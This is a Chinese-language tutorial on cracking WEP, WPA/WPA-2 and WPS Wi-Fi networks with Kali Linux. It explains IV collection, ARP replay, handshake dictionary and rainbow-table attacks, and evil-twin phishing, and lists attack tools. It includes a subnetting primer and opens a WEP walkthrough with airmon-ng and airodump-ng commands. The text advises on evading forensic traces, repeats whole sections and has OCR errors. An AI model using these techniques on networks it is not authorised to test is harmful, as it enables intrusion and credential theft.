# 无线黑客 · Kali Linux 无线黑客入门指南





# 1

## 无线破解
 1

## 前提条件
无

### 阅读后收获
你将了解到：
**隐藏网络对黑客构成了真正的挑战。**

* 你将遇到哪些不同类型的无线网络，以及破解每种网络的难度有多大。
* 什么是隐藏网络，以及它们是否真的对黑客构成了挑战。
* 你将对各种“类型”的无线网络实际上是如何被破解的有一个大致的概念。

（最后一点将在下一章中详细介绍）

### 无线安全级别
下面我用来解释无线网络可能具有的各种安全实现方案的简单要点列表。

假设你是一家俱乐部的经理。关于进入俱乐部，可以有许多可能的情况：

* **开放进入 (Open Entry)**
    * 开放网络 - 它们不需要密码即可连接无线路由器（访问点）。1 开放进入且不受限制的使用 - 任何人都可以直接进去。他们对舞池、免费啤酒等拥有不受限制的访问权限。
    * 2 这种是开放网络。仅用于公共场所（餐厅等），为用户提供免费的互联网访问（WiFi 热点）。在现实中发现此类网络并不多见。

**无线破解通常指的是破解路由器的密码。**

* 3 开放进入但使用受限。任何人都都可以直接进去，但必须为饮料付费。从路由器的安全角度来看，这仍然是一个开放网络。然而，连接到无线路由器（进入俱乐部）并不保证你可以无限制地访问互联网。还有另一层认证。这些常见于公共场所（机场、餐厅、快餐店、购物中心），它们允许你在没有密码的情况下连接到无线网络，但在之后，你和互联网之间还有额外的认证层。这一层通常会限制你访问互联网的能力（通过带宽或时间）。这一层可以用来根据你使用的数据量向你收费。

上述讨论中注意的一点是，无线破解通常是指破解路由器的密码。在登录后你和互联网之间可能存在的额外层是你需要单独处理的，不属于无线破解的范畴。因此，从 WiFi 破解的角度来看，上述两种网络都是相同的，都是“开放”的，不需要任何破解。

* **愚蠢的防护进入 (WEP)**
    * ISP（服务提供商）可能要求用户登录账户以访问互联网。
    * 1 **门禁密码且不受限制的访问。**
      对于一个机器上安装了 `Kali Linux` 的人来说，破解 WEP 无线网络可能只需要几分钟。俱乐部成员每月支付一定金额，即可获得免费饮料。他们必须在俱乐部看起来可疑的入口处说出密码。不幸的是，任何人都可以偷听到密码并进入。这就是受 WEP 保护的网络。对于机器上安装了 `Kali Linux` 的人来说，破解这种无线网络只需要几分钟。这些都是容易的目标。然而，由于极易被破解，现在发现受 WEP 保护的网络已越来越少见。`WPA` 和 `WPA-2` 更加常见。
    * 2 **门禁密码但访问受限。**
      只有成员可以进入，但他们仍然需要为饮料付费。这种情况发生在网络有密码且访问互联网有额外认证层的情况下。这常见于三种情况：
      - 大学通常分配学生的 ID 和密码，学生通过这些信息访问学院提供的互联网设施。
      - 1 ISP 要求登录 - 许多 ISP 要求用户登录账户以访问互联网。通常登录后会提供一个界面，让用户查看他们的带宽使用、网络套餐详情等。
      - 2 大学/学校/办公室 - 许多机构为用户提供账户，他们使用这些账户访问机构的网络。

**取决于密码长度，暴力破解攻击可能需要极长的时间（字面意义上的很久）。**

再次，从无线破解的角度来看，上述两种网络都是“受 WEP 保护的”，而且相当容易破解。

### 良好防护 (Well Guarded Entry)
在获得无线网络密码后是否存在另一层认证方面，`WEP` 和 `WPA` 情况是相同的。唯一的区别是大学无线路由器使用的是 `WPA` 而不是 `WEP`。因此，这不需要进一步讨论。然而，这里还有我们将在讨论的子类别。

* 1 **通过指纹和视网膜扫描进入** - 进入这个俱乐部的安全性对于大多数目的来说已经足够。攻破这一级别的安全需要花费大量的时间和精力。理论上，如果你愿意付出代价，你可能仍然成功。但一场这种规模的抢劫（如果可以这么说的话）将需要大量的计划，即便如此，很大程度上取决于运气。这是 `WPA` 安全网络。破解这种网络的唯一方法是通过字典攻击或暴力破解。取决于密码长度，暴力破解可能需要极长的时间（字面意义上的），字典攻击取决于字典的大小需要几天或几周，仍然可能失败（如果密码不在字典中）。[稍后将详细介绍]。所以，如果你想破解 `WPA` 网络的密码……换个爱好吧。
    * 2 **通过指纹和视网膜扫描进入，并可以使用快速刷卡以避免排队，因为上述扫描需要时间** - 通过引入这种卡，俱乐部创建了另一种进入路径。虽然这为合法用户节省了时间，但卡可能会被偷。虽然它不像偷听密码（WEP）或直接进入（开放）那么容易。这是开启了 WPS 的 WPA。WPS 有一个漏洞，允许黑客在 3 小内获得密码（有时可能更长，达 10-12 小时，但这个数字与 `WPA` 相比是不足道的）。就像 `WEP` 一样，`WPS` 现在是一个众知的弱点，新路由器要么禁用了 `WPS` 或者添加了一些措施（如速率限制），这使得很难，呃，偷成员的钱包。

### 额外说明：隐藏进入 (Hidden entry)
上述任何俱乐部都可能有一个秘密入口。听起来很酷，对吧？这与我们所谓的“通过隐蔽实现安全”类似。如果你不知道俱乐部的入口在哪里，我们如何进入？嗯，虽然你不知道入口在哪里，但你知道俱乐部在哪里。你有两个选择：

* 1 **被动方法** - 你去附近建筑的楼顶，拿出望远镜，试图找出人们是如何进入建筑的。在无线术语中，你等待客户端连接网络。这可能需要大量时间，但从法医学角度来看相对更安全（通过什么都不做，只是耐心观察，你确保不会留下任何以后可能被用来抓你的线索）。

**隐藏网络并没有为网络提供多少保护，受 WEP 保护的隐藏网络意味着获取密码的时间从 10 分钟增加到 15 分钟。**


2. **主动方法** - 你切断建筑物的供电/供水，或者可能通过某种方式触发火警报警。无论采取何种方法，迫使成员离开俱乐部。一旦他们发现一切无事，他们就会蜂群结回。你会知道大门在哪里。在无线术语中，你可以对客户端进行取消身份验证（de-authenticate）（你可能经常需要这样做，无论你是在破解一个 WEP 网络，还是在获取 WPA 握手[稍后会对此详细介绍]）。当然，这种方法会导致你留下一些痕迹，但至少你不需要等待几个小时。

隐藏入口俱乐部的类比物是隐藏网络。只要网络中有客户端，想要发现网络名称就非常容易（准确地说，是 `SSID`，将网络设置为隐藏基本上是停止了接入点显示其 SSID）。然而，当客户端连接到网络时，会传输带有 SSID（明文形式，即未加密）的信标帧（beacon frames，数据包），你可以捕获这些数据包并获取网络的 SSID。因此，隐藏网络并不能为网络提供多少保护，一个受 WEP 保护的隐藏网络意味着获取密码的时间从 10 分钟变为 15 分钟。对于 WPA 网络，将 SSID 设为隐藏并没有太大作用，因为 WPA 网络实际上是不可破解的，一个有时间和处理能力去绕过 WPA 加密的人不会被隐藏的 SSID 阻止。

**总结**

即使在获取路由器访问权限后，你与互联网之间可能存在额外的验证步骤（登录）或其他障碍。然而，这是一个完全独立的问题。

**无线热点或开放网络没有任何加密。** 并且与无线破解的讨论没有太大的关系。但这仍然是你必须意识到的一点：

- 无线热点或开放网络没有任何加密。任何人都可以访问它们。此外，你传输的数据没有加密，周围的任何人都可以读取。你以明文发送到目标服务器的任何内容（例如，发送到 `google`）都将以明文从你的机器传输到无线路由器。周围的任何人都可以使用 `Wireshark` 或任何其他类似的工具轻松读取。当然，敏感数据很少以明文发送，所以不要坐在无线热点旁指望获得某人的 FB 登录凭据。然而，开放网络缺乏加密应该被认真对待。就无线破解而言，这方面没有太多可做的（除了在空气中嗅探未加密的数据）。

- `WEP` - 这是大部分问题发生的地方。无数的漏洞、无数的攻击、无数列出这些问题的研究论文、无数获取密码的工具。学习如何破解这些并不需要费太大精力。如果你熟悉 `linux`，那么几乎不需要任何精力。只需运行一些终端命令，你就搞定了（使用 `wifite`，你甚至不需要费心这些）。

- `WPA` - 不想对付这家伙。从理论上讲，有一种进入的方法。在实践中，这需要永远。字典攻击和暴力破解是进入的方法。我将在本指南的进阶版本中涵盖所有这些。注：当我说 `WPA` 时，我同时指的是 `WPA` 和 `WPA-2`。就本章而言，它们是相同的。

**带有 WPS 的 WPA：没有 WEP 那么简单，但仍然可行。**

- 带有 `WPS` 的 `WPA` - 有弱点的硬汉。击中他的要害处，“花费永远才能进入”就变成了几个小时的问题。没有 `WEP` 那么简单，但仍然可行。的是，你可能会遇到一个有弱点但已经开始学习教训并妥善保护该弱点的家伙（带有 `WPS` 但有速率限制或其他安全措施）。

我希望你现在对无线安全的各种类型有一个大致的了解。我脑海中还有几份进阶指南，它们将触及这些“类型”的加密细节、漏洞及其漏洞利用方法。至于实际的破解过程，本网站以及互联网其他地方有许多关于这方面的教程，因此我不再重复介绍。我希望这次当你阅读指南时，能够意识到发生了什么，而不会最终在 `WPA` 网络上尝试一种对 `WEP` 目标有效的攻击。

**前提条件**

你应该了解（所有这些内容在“无线破解基础”中都有涵盖）：

- 你会遇到哪些不同类型的无线网络，以及破解每种网络有多大困难。
- 什么是隐藏网络，以及它们是否对黑客构成了真正的挑战。
- 对各种“类型”的无线网络实际上是如何被破解的有一个非常粗略的了解。

**阅读后收获**

你将了解：

- 更多关于不同类型无线网络的知识。
- 如何破解任何给定的无线网络。

**WEP：主要问题是静态密钥和弱的 IV。**

- 无线破解中使用的常用工具和攻击。

最后两点将在接下来的章节中详细介绍。关于攻击、漏洞和漏洞利用在加密加密方面的粗略概念。关于每种“类型”无线网络安全在加密方面的粗略概念。

**WEP、WPA 和 WPA-2**

`WEP`：无线联盟（Wireless Alliance）的目标是编写一种算法，使无线网络（`WLAN`）像有线网络（`LAN`）一样安全。这就是为什么该协议被称为 Wired Equivalent Privacy（等同于线的隐私）。遗憾的是，虽然加密理念听起来无懈可击，但实际实现漏洞百出。`WPA` 是一种新的标准，兼容使用 `WEP` 的设备。它修复了 `WEP` 的大部分，但由于必须兼容旧硬件，`WEP` 的问题仍然困扰着 `WPA`。总的来说，`WPA` 是相当安全的。

**攻击 WPA 的工具很少。**

`WPA-2` 是最新且强大的无线网络安全算法。它与许多设备不兼容，但现在所有设备都支持 `WPA-2`。

但是等等……在上一章我们假设 `WPA` 和 `WPA-2` 是同一个东西。在这一章中，我告诉你们它们是不同的。这是什么？

事实上，这两个标准确实非常不同。然而，虽然 `WPA` 中存在一些 `WPA-2` 中不存在的残留漏洞，但从黑客的角度来看，破解这两种网络的技术通常是相同的。为什么？

- 攻击 `WPA` 的工具很少（缺乏原型演示脚本意味着你必须从头开始，大多数人做不到）。
- 所有这些攻击仅在特定条件下有效（密钥更新周期必须很大、必须启用 QoS 等）。

由于这些原因，尽管 `WPA` 比 `WPA-2` 安全一点，但在大多数情况下，黑客必须使用暴力破解/字典攻击和其他方法来对 `WPA-2`，**如果你不想留下任何足迹，被动方法是唯一选择。** 这从他的角度实际上使得 `WPA` 和 `WPA-2` 是同一个东西。

注：`WPA/WPA-2` 的故事比我在这里捕捉的要多。实际上 `WPA` 或 `WPA-2` 是模糊的描述，真正的复杂性（`PSK, CCMP, TKIP, X/EAP, AES w.r.t. 使用的加密和认证方式`）需要深入研究 `WPA` 以及 `WPA-2` 的个人和企业版本。

**如何破解**


既然你已经了解了这些网络的基础知识，让我们来看看这些网络实际上是如何被黑掉的。我只会列出攻击名称，进一步的细节将在后续教程中提供。

### WEP

传递给 `RC4` 密器的初始化向量 `v` 是 WEP 的弱点。

大多数攻击都依赖于 `IVs`（初始化向量）的固有缺陷。基本上，如果你收集了足够多的 `IV`，你就能获得密码。

#### 1 被动方法

- 如果你不想留下任何足迹，那么被动方法是你的首选。在这种情况下，你只需要监听网络所在的通道，并捕获数据包（`airodump-ng`）。这些数据包将为你提供 `IVs`，有了足够的 `IVs` 后，你就可以破解网络（`aircrack-ng`）。我已经有一篇关于这种方法的教程，你可以在这里阅读——使用 `aircrack-ng` 套件破解 WEP。
- **执行此操作的最佳方法之一是请求 ARP 数据包。**

#### 2 主动方法

- **ARP 请求重放攻击**：上面的方法可能非常缓慢，因为你需要大量的数据包（由于攻击的性质，无法说具体需要多少，理论上可以是任何数量）。然而，通常所需的包数量通常是 5 位。获取这么多数据包非常耗时。不过，有很多方法可以加速这个过程。基本思想是在网络中启动某种对话，然后捕获作为对话结果的数据包。问题是，并不是所有的数据包都带有 `IVs`。因此，在没有 AP 密码的情况下，你必须让它生成带有 `IVs` 的包。执行此操作的最佳方法之一是请求 ARP 数据包（它们带有 `IVs`，一旦你捕获了至少一个 ARP 包，就可以轻松生成）。这种攻击被称为 ARP 重放攻击。我们也有这种攻击的教程，ARP 请求重放攻击。
- Chopchop 攻击
- 分段攻击
- Caffe Latte 攻击 

### WPA-2 (以及 WPA)

这里没有你可以轻松利用的漏洞。我们拥有的只有两个选择：猜密码，或者诱骗用户把密码给我们。

### 怎么猜密码？你需要捕获当有效客户端连接到 AP 时传输的一系列数据包。

#### 1 猜密码 - 要猜东西，你需要两样东西：`Guesses`（猜测）和验证。基本上，你需要能够进行大量猜测，并且能够验证它们是否正确。最原始的方法是将猜测输入到操作系统在连接 wifi 时提供的密码字段中。那将非常慢，因为你必须手动操作。即使你为此写一个脚本，它也会花费时间，因为你必须为每个猜测与 AP 通信（而且每个猜测还要通信多次）。基本上，通过每次询问 AP 来验证是极其缓慢的。那么，有没有一种方法可以在不询问 AP 的情况下检查我们密码的正确性呢？有的，但前提是你有一个四次握手（4-way handshake）。基本上，你需要捕获当有效客户端连接到 AP 时传输的一系列数据包。如果你拥有这些数据包（四次握手），那么你就可以针对它们验证你的密码。稍后会有更多细节，但我希望这个抽象概念是清晰的。猜密码有几种不同的方法。

- **暴力破解 (Bruteforce)**：尝试所有可能的密码。在时间足够的情况下，这保证是有效的。然而，即使对于长度为 8 位的字母数字密码，暴力破解也需要极其长时间。如果密码很短且你知道它只由数字组成，这种方法可能很有用。
- **词列表/字典 (Wordlist/Dictionary)**：在这种攻击中，有一个单词列表，作为可能的密码候选。这些词列表文件包含英语单词、单词组合、拼写错误的单词等。有一些巨大的词列表，大小达几 GB，许多网络可以使用它们被破解。然而，无法保证你正在尝试破解的网络是否具有列表中的密码。
**破解密码的一种可能解决方案是创建一个词列表/字典，该字典还可以将明文密码转换为哈希值，以便可以直接在列表中进行检查。** 这些攻击可以在合理的时间范围内完成。
- **彩虹表 (Rainbow table)**：我之前提到的针对四次握手的验证过程涉及对明文密码进行哈希处理，然后与握手中的哈希进行比较。然而，哈希处理（WPA 使用 `PBKDF2`）是一项 CPU 型任务，是测试密钥速度的限制因素（这就是为什么有这么多工具使用 GPU 而不是 CPU 来加速破解）。现在，一种可能的解决方案是，我们使用的词列表/字典创建者也可以将明文密码转换为哈希值，以便可以直接检查。遗憾的是，WPA-2 在哈希时使用了盐值（salt），这意味着两个具有相同密码的网络如果使用不同的盐，可能会产生不同的哈希。WPA-2 如何选择盐值？它使用网络名称（`SSID`）作为盐值。因此，两个具有相同 SSID 和相同密码的网络将具有相同的盐。现在，制作词列表的人必须为所有可能的 SSID 创建单独的哈希。实际上，情况是为最常见的 SSID 生成哈希（购买路由器时的默认 SSID，如 linksys, netgear, belkin 等）。如果目标网络具有这些 SSID 之一，使用预计算的哈希将显著缩短破解时间。这种预计算的哈希表被称为彩虹表。

#### 2 诱骗用户把密码给我们。基本上这只是中间人攻击（Man in middle）和社交工程攻击的结合。更具体地说，它是双生攻击（evil twin）和网络钓鱼（phishing）的结合。在这种攻击中，你首先强制客户端从原始 WPA-2 网络断开，然后强制连接到你创建的伪开放网络，然后在浏览器中向他发送登录页面让他输入密码。你可能会问，为什么我们需要保持网络开放并在浏览器中询问密码（我们难道不能直接创建一个 WPA-2 网络让用户直接把密码给我们吗？）。答案在于 WPA-2 在四次握手期间执行双向认证。基本上，客户端验证 AP 是合法的且知道密码，而 AP 验证客户端是合法的且知道密码（在整个过程中，密码从未以明文发送）。我们只是完成四次握手所需的信息。

### 3 奖励：WPS 漏洞与 `reaver` [我已单独详细介绍过，所以不再解释（我只是人类，而且是一个非常懒的人）]

WPA-2 四次握手过程。AP 和客户端都进行验证。

## 工具 (Kali)

在本章中，我将列出 Kali 中预装的一些常用的无线攻击类工具，以及它们的用途。

### 1 捕获数据包

- `airodump-ng`
- `wireshark`（非常有实用的工具，有专门介绍该工具进行包分析的书）

### 2 破解握手

- `aircrack-ng`（可以破解握手，也可以破解 WEP）
- `hashcat`（GPU 破解）
- `cowpatty`

### 3 WPS


- `reaver`
- `pixiewps` (执行“花粉攻击”）

## 4 酷酷工具
- `aireplay-ng` (主要针对 WEP)
- `mdk3` (很酷的东西)

### 5 自动化
- `wifite`
- `fluxion` (非常用脚本)

# 2 无线破解


## 你应该了解：
- 你会遇到哪些不同类型的无线网络，以及破解每种网络的难度有多大。
- 什么是隐藏网络，它们是否对黑客构成了真正的挑战。
- 对各种“类型”的无线网络实际上是如何被破解的有一个大致的概念。

## 你将学会：
- 进一步了解关于不同类型的无线网络。
- 如何破解任何给定的无线网络。
- 无线破解中常用的工具和攻击手段。

## WEP, WPA 和 WPA-2

`WEP 是上述讨论中那艘有缺陷的船。无线联盟（Wireless Alliance）的目标是编写一种算法，使无线网络（WLAN）像有线网络（LAN）一样安全。这就是为什么该协议被称为有线等效隐私（Wired Equivalent Privacy，等同于传统有线网络的预期隐私）。遗憾的是，虽然从理论上 WEP 背后的理念听起来无懈可击，但实际实现存在很大缺陷。主要问题是静态密钥和弱 IV（初始化向量）。一段时间，人们尝试修复这些问题，但没有有效的方法（尽管 WEP2、WEPplus 等，但都失败了）。`

`WPA 是一种新的 WLAN 标准，与使用 WEP 加密的设备兼容。它修复了 WEP 加密中几乎所有的缺陷，但由于必须与旧硬件配合，WEP 问题的某些遗留仍继续困扰着 WPA。总的来说，WPA 是安全的。在上面的故事中，这就是那艘经过改装的船。`

`WPA-2 是无线网络最新且最稳健的安全算法。它与许多设备不向后兼容，但现在所有新设备都支持 WPA-2。这是一艘无懈可击的船，采用了更强合金的新型号。`

- 极少数工具可以正确执行针对 WPA 网络的攻击（缺乏概念验证脚本意味着你必须从零开始完成一切，大多数人都做不到）。
- 所有这些攻击仅在特定条件下有效（密钥更新期必须足够长、必须启用 QoS 等）。

由于这些原因，尽管 WPA 比 WPA-2 安全性低一点，但在大多数情况下，黑客必须使用暴力破解/字典攻击以及他针对 WPA-2 会使用的其他方法，这使得从他的角度来看，WPA 和 WPA-2 实际上是同一回事。

PS：WPA/WPA-2 的故事比我在这里记录的要多。实际上，WPA 或 WPA-2 是模糊的描述，实际的复杂性（相对于使用的加密和身份验证的 PSK, CCMP, TKIP, X/EAP, AES）需要进一步深入研究个人版和企业版的 WPA 以及 WPA-2。

## 如何破解

现在你已经了解所有这些网络的基础知识，让我们来看看这些网络实际上是如何破解的。

### WEP

 大多数攻击依赖于 IV（初始化向量）的固有缺陷。基本上，如果你收集了足够的 IV，你就能获得密码。

#### 1 被动方法
- 如果你不想留下任何痕迹，那么被动方法是首选。在这种情况下，你只需监听网络所在的通道，并捕获数据包（`airodump-ng`）。这些数据包将提供 IV，有了足够的 IV，你就可以破解网络（`aircrack-ng`）。我已经有一篇关于这种方法的教程，你可以在这里阅读 - 使用 aircrack-ng 套件破解 WEP。

#### 2 主动方法
- **ARP 请求重放**：上述方法可能非常缓慢，因为你需要大量的数据包（无法说具体多少个，由于攻击的性质，数量可以是任何数字。但通常需要的数据包数量是位数）。获取这么多数据包非常耗时。不过，有很多方法可以加速过程。基本思想是在网络中启动某种对话，然后捕获由于对话产生的数据包。问题是，并不是所有的数据包都有 IV。因此，在没有 AP 密码的情况下，你必须让它生成带有 IV 的包。做到此点的最佳方法之一是请求 ARP 包（具有 IV，一旦你捕获到至少一个 ARP 包，就可以轻松生成）。这种攻击被称为 ARP 重放攻击。我们也有关于这种攻击的教程，ARP 请求重放攻击。
- **Chopchop 攻击**
- **分片攻击**
- **Caffe Latte 攻击**

我将分别详细介绍所有这些攻击（我真的无法总结后三种）。

### WPA-2 (以及 WPA)

这里没有你可以轻而利用的漏洞。我们拥有的只有两个选择：猜密码，或者诱骗用户把密码交给我们。

#### 1 猜密码
- 要猜某些东西，你需要两样东西：猜测（显而易见）和验证。基本上，你需要能够进行大量猜测，并能够验证它们是否正确。最简单的方法是在你的操作系统在连接 wifi 时提供的密码字段中输入猜测值。这会很慢，因为你必须手动操作。即使你为此写了一个脚本，它也会花费时间，因为你每次猜测都要与 AP 通信（每个猜测还要多次）。基本上，通过通过询问 AP 来验证很慢。那么，是否有方法可以在不询问 AP 的情况下检查密码的正确性？有的，但前提是你必须有一个四次握手（4-way handshake）。基本上，你需要捕获客户端连接到 AP 时传输的一系列数据包。如果你有了这些数据包（四次握手），你就可以针对它验证你的密码。稍后会有更多细节，但我希望抽象概念是清晰的。有几种不同的猜密码方法：
- **暴力破解 (Bruteforce)**：尝试所有可能的密码。只要时间足够，可以保证有效。然而，即使对于长度为 8 位的字母数字密码，暴力破解所需的长时间。如果密码很短且你知道它由数字组成，这种方法可能有用。
- **词列表/字典 (Wordlist/Dictionary)**：在这种攻击中，有一个可能的密码候选单词列表。这些词列表文件包含英文单词、单词组合、拼写错误等。有一些巨大的词列表文件大小为几个 GB，许多网络可以使用它们被破解。然而，无法保证你正在尝试破解的网络密码一定在列表中。这些攻击可以在合理的时间内完成。


## 彩虹彩表 (Rainbow table)

我之前提到的四次握手验证过程涉及明文密码的哈希处理，然后与握手中的哈希值进行比较。然而，哈希（WPA 使用 `PBKDF2`）是一项 CPU 密集型任务，是测试密钥速度的限制因素（这就是为什么有很多工具使用 `GPU` 而不是 `CPU` 来加速破解的原因）。

现在，一种解决方案是：创建我们使用的词列表/字典的人也可以将明文密码转换为哈希值，这样就可以直接检查。遗憾的是，WPA-2 在哈希时使用了“盐”（salt），这意味着两个具有相同密码的网络如果使用不同的盐，它们的哈希值也会不同。

WPA-2 是如何选择盐的？它使用网络名称（`SSID`）作为盐。因此，两个具有相同 `SSID` 和相同密码的网络将具有相同的盐。现在，制作词列表的人必须为所有可能的 `SSID` 创建单独的哈希。

在实践中，情况是为最常见的 `SSID` 生成哈希值（例如购买路由器时的默认名称，如 `-linksys`、`netgear`、`belkin` 等）。如果目标网络具有这些 `SSID` 之一，通过预计算的哈希将显著缩短破解时间。这种预计算的哈希表被称为 `rainbow table`。请注意，这些表比词列表表大得多。因此，虽然我们在破解密码时节省了一些时间，但必须使用一个大得多的文件（有些数百 GB），而不是较小的文件。这被称为“时间与的权衡”（time-memory tradeoff）。本页包含 1000 个最常见 `SSID` 的彩虹表。

## 诱骗用户提供密码

基本上这只是中间人攻击和社交工程攻击的结合。更具体地说，它是“邪恶孪生”（evil twin）和钓鱼攻击（phishing）的结合。

在这种攻击中，你首先强制客户端从原始 `WPA-2` 网络断开，然后强制它连接到你创建的虚假开放网络，然后在它的浏览器中发送一个登录页面，要求其输入网络密码。

你可能会想，为什么我们需要保持网络开放并在浏览器中请求密码呢（我们不能直接创建一个 `WPA-2` 网络让用户直接给我们密码吗）。答案在于 `WPA-2` 在四次握手期间会执行双方认证。基本上，客户端验证 `AP` 是合法的且知道密码，而 `AP` 验证客户端是合法的且知道密码（在此过程中，密码从未以明文形式发送）。我们只是没有足够完成四次握手所需的信息。

## 附：WPS 漏洞和 reaver

我已经在之前单独详细介绍过了，所以不再重复解释（我只是人，而且是个非常懒的人）。

## 工具 (Kali)

在这一节中，我将列出 Kali 中预装的一些无线破解类常用工具，以及它们的用途。

### 1 捕获数据包
* `airodump-ng`
* `wireshark`（一个非常多功能的工具，有书籍专门介绍该工具用于数据包分析）

### 2 破解握手
* `aircrack-ng`（可以像破解 WEP 一样破解握手）
* `hashcat`（GPU 破解）
* `cowpatty`

### 3 WPS
* `reaver`
* `pixiewps`（执行“pixie dust 攻击”）

### 4 酷炫工具
* `aireplay-ng`（主要针对 WEP）
* `mdk3`（酷东西）

### 5 自动化
* `wifite`
* `fluxion`（实际上它并不是常用的脚本，但因为我写过它的教程，所以我链接了它）

# 3. 网络基础：IP 地址、子网掩码和子网

## IP 地址

IP 地址是任何网络（使用 `IP/ TCP` 协议）上的每个设备必须拥有的 32 位地址。它通常用十进制表示法而不是二进制，因为那样写不那么冗长。例如：

* 十进制表示：`192.168.1.1`
* 二进制：`10000000.10101000.00000001.00000001`

从二进制形式可以看出，IP 确实是 32 位的。它的范围从 `0.0.0.0` 到 `255.255.255.255`（分别对应二进制全 0 和全 1）[很多时候，第一个字节通常只到 127。然而，我们在这里不关心这一点。]

### IP 地址的组成部分

现在这个 IP 地址有两个部分：网络地址和主机地址。许多无线路由器保留前 3 个字节（8 位，因此称为字节）作为网络地址，并将最后一个字节作为主机地址。一种非常常见的配置是 `192.168.1.1`。在这里，`192.168.1.0` 是网络地址，`0.0.0.1` 是主机地址。我希望你能看到主机地址可以从 `0.0.0.0` 变为 `0.0.0.255`（通常如此）。

### 子网掩码 (Netmasks)

现在这个 IP 地址有两个部分：网络地址和主机地址。许多无线路由器保留前 3 个字节（8 位，因此称为字节）作为网络地址，并将最后一个字节作为主机地址。一种非常常见的配置是 `192.168.1.1`。在这里，`192.168.1.0` 是网络地址，`0.0.0.1` 是主机地址。我希望你能看到主机地址可以从 `0.0.0.0` 变为 `0.0.0.255`（通常如此）。


现在假设你想将网络划分为部分。这些部分被称为子网（subnets，也可以称为子网络 subnetworks）。

我们直接进入主题，考虑掩码 `M`：

```
M = 11111111.11111111.11111111.11000000
```


现在，前 3 个字节描述网络。但第四字节（本应用于主机）的 2 个最高位（即最左侧的位）为 1。因此，当我们执行按位与操作时，第四字节的两个最高位（最左侧位）将会显示。因此，它们将成为网络地址的一部分。然而，它们属于主机字节。因此，这两个属于主机字节但在网络 IP 地址中显示的位，将网络划分为多个子网。这 2 位可以表示 4 种可能的组合：00、01、10 和 11，因此网络将有 4 个子网。

## 子网络示例

回到我们之前的 "A"，

```
A   = 11000000.10101000.00000001.xx000001 (192.168.1.1)
M   = 11111111.11111111.11111111.11000000 (255.255.255.192)
A&M = 11000000.10101000.00000001.xx000000 (192.168.1.0)
```

此前，无论 `A` 的第四字节中是什么，我们都会在 `A&M` 的第四字节（即网络地址）中得到全 0 值。而这次，我们将在网络地址中得到两个最高位。根据 `xx` 的值（可以是 00、01、10 或 11），将形成四个 个子网。现在，我们将看到哪个子网拥有哪组主机。

### 哪些子网拥有哪些主机：

- `11000000.10101000.00000001.00000000` (Images/image00038.jpeg) 拥有主机 `192.168.1.0-63` (00000000 到 00111111)
- `11000000.10101000.00000001.01000000` 拥有主机 `192.168.1.64-127` (01000000 到 01111111)
- `11000000.10101000.00000001.10000000` 拥有主机 `192.168.1.128-191` (10000000 到 10111111)
- `11000000.10101000.00000001.11000000` 拥有主机 `192.168.1.192-255` (11000000 到 11111111)

因此，掩码 `M` 将网络划分为 4 个相等的子网，每个有 64 个主机。有些子网要复杂得多，在某些特定领域有应用。我建议查阅 Wikipedia 上关于子网络的页面以获取更多思路。

### 一些特殊 IP

- `0.0.0.0` = 本地机器上的所有 IP。托管在此 IP 上的任何对网络上的所有设备可用。
- `127.0.0.1` = 本地主机 (LocalHost)，它回环机器本身。
- `255.255.255.255` = 广播，发送到此 IP 的任何内容将广播（就像广播广播给所有人一样）到网络上的所有主机。

 **32**

### 结论

使用 `/24`、`/25`、`/26` 等表示子网的方法在对网络进行漏洞扫描（使用 `nmap` 等）时非常有用。`/24` 代表掩码 `255.255.255.0`，是我们第一个示例无线路由器。这是你在执行 `nmap` 扫描时常用的配置。我们之后在子网部分讨论的是 `/26`。它有 4 个子网络。`/25` 有 2 个子网。`/27` 有 8 个。`/31` 有 128 个子网！在这个子网中，每个网络只能有 2 个主机，它用于点对点链路。我希望你下次处理网络时不会遇到困难。还有像组播 (Multicast) 这样的主题，你可以对它们进行进一步阅读。


# 破解 Wifi - WEP

### 1. 无线适配器的名称

好了，现在你的电脑有很多网络适配器，为了扫描其中一个，你需要知道它的名称。基本上你需要知道以下内容：
- `lo` - 回环。不重要。
- `eth` - 以太网。
- `wlan` - 这是我们想要的。注意后缀。现在，输入 `ifconfig` 查看所有适配器。注意 `wlan0/1/2` 适配器：(image0040.jpeg)

### 2. 开启监听模式

(image0038.jpeg) 我们将使用名为 `airmon-ng` 的工具创建接口 `mon`。只需输入：

```bash
airmon-ng start wlan0
```

你的监控接口将创建 - Kali 1.x 情况为 `wlan0mon`。

### 3. 开始捕捉数据包

现在我们将使用 `airodump-ng` 捕捉空气中的数据包。该工具收集空气中的无线数据包。你会看到想要破解的 wifi 名称。对于 Kali 2.0 或更高版本，将 `mon0` 替换为 `wlan0mon`：

```bash
airodump-ng mon0
```

(Images/image0038.jpeg) **36**

### 4. 将捕捉的数据包存储到文件中

通过给 `airodump-ng` 更多参数来实现。对于 Kali 2.0 或更高版本，将 `mon0` 替换为 `wlan0mon`：

```bash
airodump-ng mon0 --write name_of_file
```

